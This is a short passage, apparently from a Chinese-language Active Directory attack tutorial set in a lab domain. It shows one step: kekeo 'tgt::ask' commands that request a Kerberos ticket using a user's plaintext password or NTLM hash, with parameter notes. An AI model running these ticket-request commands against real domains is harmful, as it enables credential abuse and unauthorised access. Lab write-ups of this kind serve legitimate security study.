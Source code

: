 [![](assets/1705982146-6c0cef5712b8200aca63cf4591a1a9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223046-804642ae-b7a0-1.png)  
Step 3：之后我们可以在Win 7主机上使用kekeo执行如下命令来请求ST服务票据

```plain
tgt::ask /user:al2ex /domain:hacke.testlab /password:"1234Rewq!@#$"

#参数说明
/user:当前用户名
/domain:所在域名
/password:当前用户名的密码
/ticket:生成票据名称，这个参数也可以直接跳过

PS:如果已知的是服务账号的NTLM Hash，则如下
tgt::ask /user:al2ex /domain:hacke.testlab /NTLM:"NTLM-Hash"
```
